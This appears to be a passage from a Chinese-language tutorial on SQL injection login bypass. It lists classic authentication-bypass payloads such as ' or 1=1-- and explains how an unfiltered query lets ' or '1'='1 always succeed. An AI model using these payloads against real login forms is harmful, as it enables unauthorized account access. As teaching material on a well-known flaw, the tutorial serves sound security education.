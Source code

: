 ````sql
"or "a"="a
')or('a'='a
or 1=1--
'or 1=1--
a'or' 1=1--
"or 1=1--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 1=1
'OR 1=1%00
````

通过我们的测试代码可以发现，开发在验证登录的时候，只是将用户输入作为查询条件进行查询，然后mysql_num_rows函数进行判断返回数据的数量，如果返回的数量大于1证明数据库中存在该用户，然后允许登录，正常情况下执行的SQL语句为：

```sql
select * from user where username='admin' and password ='admin'
```


但是当我们提交 【' or '1'='1】时，由于程序并没有对特殊字符进行过滤，将用户输入的直接带入查询，最后执行的SQL语句为：

```sql
select * from user where username='admin' and password ='admin' or '1'='1'
```


这样SQL返回的值始终为1，就成功绕过了程序的验证。